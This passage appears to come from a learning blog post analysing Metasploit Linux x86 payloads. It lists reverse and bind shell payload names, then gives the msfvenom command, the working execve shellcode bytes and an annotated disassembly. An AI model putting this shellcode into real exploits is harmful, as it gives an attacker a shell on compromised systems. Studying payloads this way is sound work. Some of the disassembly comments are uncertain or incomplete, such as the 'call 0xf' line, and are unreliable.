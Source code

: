 ```
    linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
    linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
    linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
    linux/x86/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
    linux/x86/shell_find_port                           Spawn a shell on an established connection
    linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
    linux/x86/shell_reverse_tcp                         Connect back to attacker and spawn a command shell

```

I decided to analyse the following payloads.

### linux/x86/exec CMD="/bin/bash"
I used this one during [Assignment#3](https://marcosvalle.github.io/re/exploit/2018/08/23/egg-hunter.html) for spawning a shell after a buffer overflow using an egg hunter. Now it is time to understand what has happened under the hood.

```
msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -f c
No encoder or badchars specified, outputting raw payload
Payload size: 45 bytes
Final size of c file: 213 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```
This is a very simple shellcode, basically the stack is prepared and the syscall is called. However, there is on particularly interesting optimization here:

* Usage of `cwd` instruction to clear out edx. The sign of eax (0 in this case) is copied into dx, therefore clearing it out.

Line-by-line analysis:

```
push   0xb 
pop    eax  ;the first 2 lines set eax=0xb, which is the syscall number for sys_execve
cwd         ;clears edx
push   edx  ;pushes 0 into the stack
pushw  0x632d   ;pushes '-c' into the stack
mov    edi,esp  ;save the stack pointer in edi (points to -c)
push   0x68732f ;save /sh into the stack (little endian)
push   0x6e69622f   ;save /bin into the stack (little endian)
mov    ebx,esp  ;save the stack pointer in ebx (points to /bin/sh)
push   edx  ;push 0 into the stack      
call   0xf  ;probably related to stack alignment, not sure
push   edi  ;push -c again
push   ebx  ;push /bin/sh
mov    ecx,esp  ;save '/bin/sh -c' in ecx
;EAX=0xb
;EBX -> "/bin/sh"
;ECX -> Address of '/bin/sh -c'
;EDX ->
int    0x80; calls execve
```
